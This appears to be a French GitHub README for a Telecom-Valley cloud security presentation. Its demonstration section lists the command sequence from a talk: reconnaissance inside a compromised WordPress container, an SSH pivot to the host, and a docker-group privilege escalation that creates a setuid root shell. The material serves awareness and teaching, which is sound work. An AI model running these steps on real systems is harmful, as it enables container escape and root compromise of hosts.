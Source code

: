 # fr-commission-securite-cloud
FR - Supports de présentation en français pour la commission sécurité &amp; cloud, Telecom-Valley

## Diaporama de présentation

Document unique : [Commission sécurité cloud.pdf](https://github.com/ledroide/fr-commission-securite-cloud/Commission%20s%C3%A9curit%C3%A9%20cloud.pdf)

## Sources et documentation

Les études et documents cités sont sur [presentations/sources](https://drive.google.com/open?id=1P9nut3-c6ZVQW_wc_Klq0owCwjO4A8zG)

## Démonstrations

Revoir d'abord la démonstration d'intrusion par plugin de reverse-shell dans Wordpress par Laurent Gomez a la conference [Le Cloud, nouveau fort de Vauban, SophiaConf 2015](https://youtu.be/r-ZUCnhM3eE).

Puis les commandes exécutées :

```bash
~ $ docker exec mysql-wp ps auxwww 
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
mysql        1  0.0  1.2 1270632 201020 ?      Ssl  09:46   0:01 mysqld
root        63  0.0  0.0  17504  2048 ?        Rs   10:36   0:00 ps auxwww

root@eb78198a1832:/# ls /sys/devices/

root@5b93404b19fd:/var/www/html# cat /proc/net/arp 
IP address       HW type     Flags       HW address            Mask     Device
10.32.0.2        0x1         0x2         02:42:0a:20:00:02     *        eth0
10.32.0.1        0x1         0x2         02:42:d5:c5:5d:39     *        eth0
root@5b93404b19fd:/var/www/html# hostname -I
10.32.0.4

root@eb78198a1832:/# cat /proc/net/fib_trie
           +-- 10.32.0.0/29 2 0 2
Hosts/Net: 6

root@5b93404b19fd:/var/www/html# egrep ^10 /etc/hosts
10.32.0.2       mysql fabe9f6fd32c mysql-wp
10.32.0.4       5b93404b19fd

root@eb78198a1832:/# ssh -l ecisse 10.32.0.1
ecisse@10.32.0.1's password: 
Welcome to Ubuntu 17.10 (GNU/Linux 4.13.0-21-generic x86_64)

ecisse@D20854-Gailuron:~$ id
uid=1002(ecisse) gid=1002(ecisse) groups=1002(ecisse),999(docker)
ecisse@D20854-Gailuron:~$ sudo -l
[sudo] password for ecisse: 
Sorry, user ecisse may not run sudo on D20854-Gailuron.
ecisse@D20854-Gailuron:~$ docker ps
CONTAINER ID        IMAGE                    COMMAND             CREATED             STATUS              PORTS               NAMES
eb78198a1832        rastasheep/ubuntu-sshd   "bash"              15 minutes ago      Up 15 minutes       22/tcp              confident_panini

~ $ mkdir -p Downloads/install/gitlab

~ $ docker run -ti --rm -v $HOME/Downloads/install/gitlab:/toto debian:wheezy bash
root@dada2cc8a000:/#
root@dada2cc8a000:/# cp /bin/sh /toto/gitlab-ci.install.bin
root@dada2cc8a000:/# chmod a+s /toto/gitlab-ci.install.bin
root@dada2cc8a000:/# exit
jujube@D20854-Gailuron:~$ ./Downloads/install/gitlab/gitlab-ci.install.bin 
# id -un
root
# 
```

## Liens complémentaires

* (Annonce de la conférence)[http://www.telecom-valley.fr/6-fevrier-2018-commission-securite-cloud/]
